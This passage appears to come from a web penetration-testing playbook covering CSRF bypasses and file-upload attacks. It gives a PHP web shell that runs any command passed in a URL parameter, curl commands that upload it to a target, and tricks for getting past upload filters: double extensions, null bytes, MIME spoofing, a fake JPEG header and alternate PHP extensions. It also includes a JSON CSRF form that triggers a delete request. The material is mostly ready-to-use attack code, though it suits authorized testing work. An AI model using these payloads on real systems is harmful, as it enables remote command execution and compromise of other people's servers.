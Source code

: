### Step 5.3: Bypass Techniques
```bash
# Remove Referer header
curl -X POST $TARGET/action -d "param=value" -H "Referer:"

# JSON CSRF (if no Content-Type check)
<form action="http://target/api" method="POST" enctype="text/plain">
  <input name='{"action":"delete","id":"123"}' value='x'>
</form>

# SameSite=None bypass (requires user interaction on target domain)
```

---

## 6. File Upload & Path Traversal {#6-file-upload}

### Step 6.1: File Upload Bypass

#### PHP Web Shell
```php
<?php
// shell.php
system($_GET['cmd']);
?>
```

#### Upload Techniques
```bash
# 1. Direct upload
curl -F "file=@shell.php" $TARGET/upload

# 2. Double extension
mv shell.php shell.php.jpg
curl -F "file=@shell.php.jpg" $TARGET/upload

# 3. Null byte (older PHP)
curl -F "file=@shell.php%00.jpg" $TARGET/upload

# 4. MIME type bypass (change in Burp)
Content-Type: image/jpeg  # But file is actually .php

# 5. Case variation
shell.PhP, shell.pHP

# 6. Add valid image header
printf '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]); ?>' > shell.php.jpg
```

#### Bypass Extension Blacklist
```bash
# Try these extensions:
.phtml, .php3, .php4, .php5, .phar, .phps, .pht, .phpt
.php.jpg  # If only last extension checked
```
